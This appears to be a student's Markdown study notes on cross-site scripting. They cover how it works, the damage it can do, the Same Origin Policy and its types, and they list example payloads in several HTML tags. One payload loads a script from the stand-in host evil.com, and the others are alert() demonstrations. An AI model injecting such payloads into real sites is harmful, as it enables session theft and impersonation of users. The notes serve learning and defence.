 # Cross Site Scripting (XXS) 
XXS is one of most common and dangerous types of vulnerabilities in web apps. It can lead to stolen of modified user data! XXS is a client-side code injection technizue where attacker executes malicious scripts by inserting code into a legit and trusted web page or web app. 

## Where does XXS Occur?
On web pages and web apps. Common vulnerable vehicles to deliver malicious scripts include forums, message boards, and web pages that allow comment. 

## Who is Vulnerable to XXS?
Any web page or app that uses **unsanitized** user input in the output it generates. 


## How Does XXS Work?
XXS attacks are possible in VBScript, ActiveX, Flash, and even CSS. Most common in Javasript b/c JS is fundamental to most browsing experiences. 

- Vulnerable website needs to directly include user input in it's pages. Attacker inserts malicious string that is treated as source code by victim's browser. When victim's page loads, malicious code is executed. 

No difference between HTML code that needs to be rendered, and input we sent out. Browser acceptsout input without realizing that there's a script.


## What Damage Can XXS Cause ?
Malicious JS can access to all object that web page has access to. 
- Session cookies. Attacker can impersonate user, perform actions of behalf of user, and gain access to user's sensitive data. 
- JS can read browser DOM and modify it. 
- JS cann use XMLHttpRequest object to send HTTP requiest with arbitrary content to arbitrary destinations 
- JS can use HTML5 APIs to access geolocation, webcase, microphone, and even specific files 

### Same Origin Policy 
A policy that stops one website from reading or writing data to another. Checks for three things: *Protocol, Host, Port* 

# XXS Attack Vectors 
### <script> tag 
Most straightforward XXS payload. Can reference external JS cde or can embed code within script tage itself. 
`js
<script src=http://evil.com/xss.js></script>
`
`js
<script> alert("XSS"); </script>

`
### JS Events 
`js
<body onload=alert("XSS")>
`

### <body> tag 
`js
<body background="javascript:alert("XSS")">
`

### <img> tag 
`js
<img src="javascript:alert("XSS");">
`

### <input> tag
`js
<input type="image" src="javascript:alert('XSS');">
`

### <link> tag 
`js
<link rel="stylesheet" href="javascript:alert('XSS');">
`

### <table> tag 
`<table background="javascript:alert('XSS')">
`

### <div> tag 
`js
 <div style="background-image: url(javascript:alert('XSS'))">
 `

# Types of XXS

### Refelcted XXS 
Input reflected back in response 

### Stored XXS 
Input persisted inn database

### DOM XXS
Happens entirely on client-side. User's input lands directly inside dangerous part of JS code. 

# Resources 
- https://www.acunetix.com/websitesecurity/cross-site-scripting/
- https://xss-game.appspot.com/